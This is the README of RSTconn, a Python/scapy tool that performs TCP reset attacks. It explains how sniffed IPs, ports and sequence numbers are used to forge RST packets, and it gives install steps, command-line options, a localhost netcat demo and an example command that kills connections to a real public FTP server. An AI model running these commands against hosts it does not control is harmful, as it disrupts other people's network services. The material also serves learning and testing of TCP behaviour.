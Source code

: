 RSTconn
-------

A TCPKill is a utility that implements a **TCP reset attack**.
RSTconn works for both IPv4 and IPv6 and is written in python and scapy.

How RSTconn works
-------------

RESET is a flag in TCP packets to indicate that the connection is not longer working.
If any of the two participants in a TCP connection send a packet
contains such a RESET flag, the connection will be closed immediately.

Thus it can be use to attack TCP connections once the attacker can forge
TCP packets from any of the two parties if he or she know their IPs, ports
and the sequence number of current TCP connection.

The attack can be used to make certain users to fail to use certain
network services based on TCP if we know the information above.

In practice, we should eavesdrop the victims’ communications to get
their IPs, ports and the sequence number.

You can do it by filtering the TCP packets and find the newest packets that we want to attack.

We can sends a TCP packet with RESET flag and the IPs and ports of
source and destination are sniffed from victims. What’s more, the
sequence number will increase in TCP communication, its value should
be equal or lager than the ack value from the lastest packet the sender
received and in the window of receiver. So we should update it.
To ensure successful, we can send lots of packets with different
sequence number which is larger than the sniffed ack field.

Setup
-----

````
pip install rstconn
````

Usage
-----

````
rstconn kills network connections.

optional arguments:
  -h, --help            show this help message and exit
  --iface {lo,enp0s25,lxcbr0,docker0,br-d316e57def52,vethd4f41f0,veth6fa5336, ...}, -i {...}
                        Interface where to listen to
  --server-ip SERVER_IP, -sip SERVER_IP
                        IPv4 or hostname
  --client-ip CLIENT_IP, -cip CLIENT_IP
                        IPv4 or hostname
  --server-port SERVER_PORT, -p SERVER_PORT
                        Server port
  --packet-count PACKET_COUNT, -pc PACKET_COUNT
                        sends N RST packets
  --seq-jitter SEQ_JITTER, -sj SEQ_JITTER
                        Set seq_jitter to be non-zero in order to prove to yourself that the
                        sequence number of a RST segment does indeed need to be exactly equal
                        to the last sequence number ACK-ed by the receiver
  --ignore-syn, -is     if a Packet has SYN flag, not sending RST
  --window-size WINDOW_SIZE, -ws WINDOW_SIZE
                        Window size
  -d {CRITICAL,ERROR,WARNING,INFO,DEBUG}, --debug {CRITICAL,ERROR,WARNING,INFO,DEBUG}
                        Debug level, see python logging; defaults to INFO if omitted
  -m, --monitor         Just sniff traffic without sendin RST
  -v, --version         Print version and exit

````

RSTconn listens for the matching connections and than sends a
number of SYN/ACK and RST packets to the client to get the connection be killed.

The number of packets is configurable by `--packet-count`, `--iface` and
`--server-ip` and `--server-port` are related to the local server port to be listen on.

````
rstconn -i lo --server-ip 127.0.0.1 --server-port 8000 --packet-count 50
````

Demo
----

````
apt install netcat
````

- Setup TCP connection. In one terminal window run `nc -nvl 8000` to set up a server
- In another terminal window run `nc 127.0.0.1 8000` to connect to the server
- In a third window run `rstconn` to run our sniffing program

You should see the sniffing program log some output, send a RST packet, and the nc connection should be broken.

If you want to test rstconn in IPv6, use instead:

- `nc ::1 8000`
- `nc -nvl ::1 8000`
- `rstconn -i lo --server-ip "::1" --server-port 8000 -pc 33`

Usage examples
--------------

Reset connections to ftp.gnu.org
````
rstconn -i enp0s25 --server-ip ftp.gnu.org
````

on the client side we'll see
````
ftp> ls
421 Service not available, remote server has closed connection
````

without server/client ip, using only the port

````
rstconn -i lo --server-ip 127.0.0.1 --server-port 8000
````

Credits
-------

- https://gist.github.com/spinpx/263a2ed86f974a55d35cf6c3a2541dc2
- https://github.com/robert/how-does-a-tcp-reset-attack-work


References
----------

- Watson, P.: Slipping in the Window: TCP Reset attacks. (2004)

